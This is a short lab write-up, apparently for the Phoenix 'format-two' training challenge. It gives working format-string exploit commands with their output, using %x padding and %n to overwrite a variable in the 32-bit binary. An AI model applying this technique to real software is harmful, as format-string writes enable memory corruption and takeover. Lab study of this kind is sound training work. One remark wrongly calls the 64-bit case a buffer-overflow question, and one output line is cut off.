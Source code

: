 

First we find the location of changeme and buf
```sh
gef➤  print &changeme
$2 = (<data variable, no debug info> *) 0x600af0 <changeme>
gef➤  print $rbp - 0x100
$3 = (void *) 0x7fffffffe410
```

We need to write \xf0\x0a\x60\x00 into the buffer so that we can write to that address using %n. However, strcopy will stop copying when it reads the \x00, thinking it's the end of a string. This binary is therefore not vulnerable to a buffer overflow.

The 32-bit version (i486) however:
```sh
gef➤  print &changeme
$1 = (<data variable, no debug info> *) 0x8049868 <cha
```

```sh
user@phoenix-amd64:/opt/phoenix/i486$ exploit=$(python -c 'print("\x68\x98\x04\x08" + "AAAABBBB" + " %x "*14)')
user@phoenix-amd64:/opt/phoenix/i486$ ./format-two "$exploit"
Welcome to phoenix/format-two, brought to you by https://exploit.education
hAAAABBBB ffffd7ba  100  0  f7f84b67  ffffd5f0  ffffd5d8  80485a0  ffffd4d0  ffffd7ba  100  3e8  8049868  41414141  42424242 Better luck next time!
```


We see our A's and B's at argument number 13 and 14, and the address of changeme is at argument number 12. Therefore:

```sh
user@phoenix-amd64:/opt/phoenix/i486$ exploit=$(python -c 'print("\x68\x98\x04\x08" + "AAAABBBB" + " %x "*11 + "%n")')
user@phoenix-amd64:/opt/phoenix/i486$ ./format-two "$exploit"
Welcome to phoenix/format-two, brought to you by https://exploit.education
hAAAABBBB ffffd7c4  100  0  f7f84b67  ffffd600  ffffd5e8  80485a0  ffffd4e0  ffffd7c4  100  3e8 Well done, the 'changeme' variable has been changed correctly!
```
